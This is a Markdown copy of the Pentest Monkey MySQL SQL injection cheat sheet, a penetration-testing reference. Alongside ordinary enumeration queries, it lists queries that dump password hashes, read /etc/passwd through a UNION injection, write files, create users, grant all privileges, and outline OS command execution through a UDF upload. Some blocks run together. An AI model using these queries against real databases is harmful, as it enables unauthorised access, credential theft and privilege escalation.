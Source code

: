 # MySQL SQL Injection Cheatsheet - Fixed From Pentest-Monkey

Fixed the Unicode single quotes for copy and paste -able. Pentest Monkey is Awesome.

Version
```sql
SELECT @@version

```

Comments
```sql
SELECT 1; #comment
SELECT /*comment*/1;
```

Current User 	
```sql
SELECT user();
SELECT system_user();
```

List Users 	
```sql
SELECT user FROM mysql.user; — priv
```

List Password Hashes 	
```sql
SELECT host, user, password FROM mysql.user; — priv
```

Password Cracker 	John the Ripper will crack MySQL password hashes.

List Privileges 	
```sql
SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges; — list user privsSELECT host, user, Select_priv, Insert_priv, Update_priv, Delete_priv, Create_priv, Drop_priv, Reload_priv, Shutdown_priv, Process_priv, File_priv, Grant_priv, References_priv, Index_priv, Alter_priv, Show_db_priv, Super_priv, Create_tmp_table_priv, Lock_tables_priv, Execute_priv, Repl_slave_priv, Repl_client_priv FROM mysql.user; — priv, list user privsSELECT grantee, table_schema, privilege_type FROM information_schema.schema_privileges; — list privs on databases (schemas)SELECT table_schema, table_name, column_name, privilege_type FROM information_schema.column_privileges; — list privs on columns
```

List DBA Accounts 	
```sql
SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE privilege_type = 'SUPER';SELECT host, user FROM mysql.user WHERE Super_priv = 'Y'; # priv
```

Current Database 	
```sql
SELECT database()
```

List Databases 	
```sql
SELECT schema_name FROM information_schema.schemata; — for MySQL >= v5.0
SELECT distinct(db) FROM mysql.db — priv
```

List Columns 	
```sql
SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema'
```

List Tables 	
```sql
SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'
```

Find Tables From Column Name 	
```sql
SELECT table_schema, table_name FROM information_schema.columns WHERE column_name = 'username'; — find table which have a column called 'username'
```

Select Nth Row 	
```sql
SELECT host,user FROM user ORDER BY host LIMIT 1 OFFSET 0; # rows numbered from 0
SELECT host,user FROM user ORDER BY host LIMIT 1 OFFSET 1; # rows numbered from 0
```

Select Nth Char 
```sql
SELECT substr('abcd', 3, 1); # returns c
```

Bitwise AND 	
```sql
SELECT 6 & 2; # returns 2
SELECT 6 & 1; # returns 0
```

ASCII Value -> Char 	
```sql
SELECT char(65); # returns A
```

Char -> ASCII Value 	
```sql
SELECT ascii('A'); # returns 65
```

Casting 	
```sql
SELECT cast('1' AS unsigned integer);
SELECT cast('123' AS char);
```

String Concatenation 	
```sql
SELECT CONCAT('A','B'); #returns AB
SELECT CONCAT('A','B','C'); # returns ABC
```

If Statement 	
```sql
SELECT if(1=1,'foo','bar'); — returns 'foo'
```

Case Statement 	
```sql
SELECT CASE WHEN (1=1) THEN 'A' ELSE 'B' END; # returns A
```

Avoiding Quotes 	
```sql
SELECT 0x414243; # returns ABC
```

Time Delay 
```sql
SELECT BENCHMARK(1000000,MD5('A'));
SELECT SLEEP(5); # >= 5.0.12
```

Make DNS Requests 	Impossible?

Command Execution 	

If mysqld (<5.0) is running as root AND you compromise a DBA account you can execute OS commands by uploading a shared object file into /usr/lib (or similar).  The .so file should contain a User Defined Function (UDF).  raptor_udf.c explains exactly how you go about this.  Remember to compile for the target architecture which may or may not be the same as your attack platform.

Local File Access 	

```sql
…' UNION ALL SELECT LOAD_FILE('/etc/passwd') — priv, can only read world-readable files.
SELECT * FROM mytable INTO dumpfile '/tmp/somefile'; — priv, write to file system
```

Hostname, IP Address 	
```sql
SELECT @@hostname;
```

Create Users 	
```sql
CREATE USER test1 IDENTIFIED BY 'pass1'; — priv
```

Delete Users 	
```sql
DROP USER test1; — priv
```

Make User DBA 	
```sql
GRANT ALL PRIVILEGES ON *.* TO test1@'%'; — priv
```

Location of DB files 	
```sql
SELECT @@datadir;
```
Default/System Databases

```sql
information_schema (>= mysql 5.0)
mysql
```


## References

[Original Pentest Monkey Cheatsheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
